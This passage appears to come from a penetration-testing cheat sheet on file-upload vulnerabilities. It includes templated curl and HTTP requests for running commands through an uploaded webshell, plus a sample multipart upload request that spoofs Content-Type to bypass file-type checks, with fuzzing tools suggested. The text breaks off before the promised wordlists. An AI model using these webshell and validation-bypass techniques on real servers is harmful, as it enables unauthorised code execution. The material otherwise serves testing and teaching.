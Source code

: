 You could access it as follows:

<smart-tabs variable="request-options" :tabs="{'curl': 'Curl', 'http': 'HTTP'}">
<template v-slot:curl>

```bash
curl "https://{{ target vulnerable.net }}{{ webshell-location /example/exploit.php }}?{{ parameter command }}={{ payload id } url }"
```

</template>
<template v-slot:http>

```http
GET {{ webshell-location /example/exploit.php }}?{{ parameter command }}={{ payload id } url } HTTP/1.1
```

</template>
</smart-tabs>

### Java

> TODO: Add some JSP shells

## Exploiting flawed validation

Many times you will find controls in place to prevent you from uploading malicious files.
Chances are that this controls can be bypassed using some of the techniques listed below.


### Flawed file type validation

The following is an example from a `POST` request to upload an image.
One of the fields that is usually checked is the `Content-Type`.
The browser automatically sets it to the adecuate value, but as an attacker you can send whatever you want:

```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpeg"
Content-Type: {{ content-type image/jpeg }}

[...binary content of example.jpeg...]

---------------------------012345678901234567890123456--
```

You can test every possible value for `Content-Type` with Burp's Intruder, [ffuf](https://github.com/ffuf/ffuf) or your favourite tool for fuzzing on the web.
The following 2 worldists might help you:


[^1]: Port Swigger Web Security Academy: https://portswigger.net/web-security/file-upload
[^2]: Wikipedia - List of file signatrues: https://en.wikipedia.org/wiki/List_of_file_signatures
[^3]: Configure handlers on IIS: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/#configuration-sample